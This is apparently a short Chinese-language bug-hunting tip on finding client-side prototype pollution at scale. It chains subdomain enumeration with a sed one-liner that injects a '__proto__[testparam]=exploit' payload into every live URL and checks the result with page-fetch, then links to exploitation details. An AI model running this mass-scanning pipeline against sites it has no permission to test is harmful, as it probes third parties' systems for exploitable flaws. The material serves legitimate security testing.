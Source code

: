 ## 另类漏洞批量挖掘

## 原型链污染

1.获取子域

```
subfinder -d http://target.com -all -silent | httpx -silent | anew alive.txt
```

2.检查/发现漏洞

```
sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULN"
```

3.利用细节

[https://github.com/BlackFan/client-side-prototype-pollution…](https://t.co/HgKH4a5CcF?amp=1)


